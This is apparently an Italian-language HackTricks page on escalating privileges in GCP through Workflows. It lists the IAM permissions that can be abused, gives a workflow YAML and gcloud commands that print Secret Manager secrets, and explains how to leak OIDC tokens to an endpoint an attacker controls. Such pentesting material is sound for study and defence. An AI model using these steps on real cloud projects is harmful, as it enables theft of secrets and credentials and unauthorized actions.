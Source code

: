 # GCP - Workflows Privesc

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## Workflows

Informazioni di base:

{% content-ref url="../gcp-services/gcp-workflows-enum.md" %}
[gcp-workflows-enum.md](../gcp-services/gcp-workflows-enum.md)
{% endcontent-ref %}

### `workflows.workflows.create`, `iam.serviceAccounts.ActAs`, `workflows.executions.create`, (`workflows.workflows.get`, `workflows.operations.get`)

Per quanto ne so, non è possibile ottenere una shell con accesso all'endpoint dei metadati contenente le credenziali del SA attaccato a un Workflow. Tuttavia, è possibile abusare dei permessi del SA aggiungendo le azioni da eseguire all'interno del Workflow.

È possibile trovare la documentazione dei connettori. Ad esempio, questa è la [**pagina del connettore Secretmanager**](https://cloud.google.com/workflows/docs/reference/googleapis/secretmanager/Overview)**.** Nella barra laterale è possibile trovare diversi altri connettori.

E qui puoi trovare un esempio di un connettore che stampa un segreto:
```yaml
main:
params: [input]
steps:
- access_string_secret:
call: googleapis.secretmanager.v1.projects.secrets.versions.accessString
args:
secret_id: secret_name
version: 1
project_id: project-id
result: str_secret
- returnOutput:
return: '${str_secret}'
```
Aggiornamento dalla CLI:
```bash
gcloud workflows deploy <workflow-name> \
--service-account=email@SA \
--source=/path/to/config.yaml \
--location us-central1
```
Se non hai accesso web, è possibile attivare e vedere l'esecuzione di un Workflow con: 

{% code overflow="wrap" %}
```bash
# Run execution with output
gcloud workflows run <workflow-name> --location us-central1

# Run execution without output
gcloud workflows execute <workflow-name> --location us-central1

# List executions
gcloud workflows executions list <workflow-name>

# Get execution info and output
gcloud workflows executions describe projects/<proj-number>/locations/<location>/workflows/<workflow-name>/executions/<execution-id>
```
{% endcode %}

{% hint style="danger" %}
Puoi anche controllare l'output delle esecuzioni precedenti per cercare informazioni sensibili
{% endhint %}

Nota che anche se ricevi un errore come `PERMISSION_DENIED: Permission 'workflows.operations.get' denied on...` perché non hai quel permesso, il workflow è stato generato.

### Leak del token OIDC (e OAuth?)

Secondo [**la documentazione**](https://cloud.google.com/workflows/docs/authenticate-from-workflow) è possibile utilizzare passaggi del workflow che invieranno una richiesta HTTP con il token OAuth o OIDC. Tuttavia, proprio come nel caso di [Cloud Scheduler](gcp-cloudscheduler-privesc.md), la richiesta HTTP con il token Oauth deve essere indirizzata all'host `.googleapis.com`.

{% hint style="danger" %}
Pertanto, è **possibile leakare il token OIDC indicando un endpoint HTTP** controllato dall'utente, ma per leakare il **token OAuth** avresti **bisogno di un bypass** per quella protezione. Tuttavia, sei ancora in grado di **contattare qualsiasi API GCP per eseguire azioni per conto del SA** utilizzando sia connettori che richieste HTTP con il token OAuth.
{% endhint %}

#### Oauth

{% code overflow="wrap" %}
```yaml
- step_A:
call: http.post
args:
url: https://compute.googleapis.com/compute/v1/projects/myproject1234/zones/us-central1-b/instances/myvm001/stop
auth:
type: OAuth2
scopes: OAUTH_SCOPE
```
{% endcode %}

#### OIDC
```yaml
- step_A:
call: http.get
args:
url: https://us-central1-project.cloudfunctions.net/functionA
query:
firstNumber: 4
secondNumber: 6
operation: sum
auth:
type: OIDC
audience: OIDC_AUDIENCE
```
### `workflows.workflows.update` ...

Con questo permesso, invece di `workflows.workflows.create`, è possibile aggiornare un workflow già esistente e eseguire gli stessi attacchi.

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}
